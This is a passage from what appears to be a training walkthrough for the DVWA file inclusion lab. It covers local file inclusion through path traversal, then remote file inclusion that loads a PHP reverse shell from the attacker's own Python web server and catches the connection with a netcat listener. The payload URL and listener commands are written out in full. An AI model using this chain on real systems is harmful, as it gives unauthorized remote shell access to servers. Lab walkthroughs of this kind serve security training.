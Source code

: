 <i>Note: if you didn't deduce this yourself, you could use an automatic tool like "fimap" to "brute force" how many directories you'll need to traverse.</i>

Let's modify the URL as follows:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=../../hackable/flags/fi.php</b>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/filfipartial.png" width="500">

Success ... partially? We can clearly see quotes #1, #2, and #4. #3 seems to have been hidden in some manner, and we don't see #5 at all. Let's examine the source code (Right-click > "Inspect Element") and see if we can find out what happened to the missing quotes.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/filfipartialfive.png" width="500">

Aha! #5 shows up in the source! It's commented out, which means your average end user wouldn't see it. But #3 still doesn't appear. That must mean the server-side code is obfuscating it in some manner. 

What can we do to view the server-side source code? I think it's time for my favorite kind of exploit ...

<h3><b>Remote File Inclusion</b></h3>

We already know we can point the <b>page</b> parameter to whatever we want, whether it's a local file or remote site. So can we point it to something that gives us a bit more control? A shell of some sort? Let's find out!

I tend to like reverse shells, so let's start by setting up a temporary web server on Kali. I don't know about you, but I don't want to deal with a full Apache server, .htaccess, moving files around, and all that. Lucky for us, we can easily stand one up with the following command:

<code>python -m SimpleHTTPServer 9999</code>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/firfilistenersetup.png" width="500">

Of course, you can change <code>9999</code> to whatever port you want.

Now let's find a shell. 

Kali actually has a bunch of them included by default. You can find them at <b>/usr/share/webshells/</b>. Since we're dealing with PHP, I'm going to take <b>php/php-reverse-shell.php</b> and move it to my working directory. Open it up and define the variable <code>$ip</code> to your Kali IP address and <code>$port</code> to whatever port you want to receive a connection to. It's that easy!

Finally, we'll need a listener to accept the connection from the shell. The networking tool "netcat" sounds like it will fit our needs. Let's try this:

<code>nc -lvnp 5555</code>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/firfincsetup.png" width="500">

Again, feel free to change <code>5555</code> to your preferred port.

Now it's time to bring it all together. Your new RFI exploit should look something like:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=http&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>
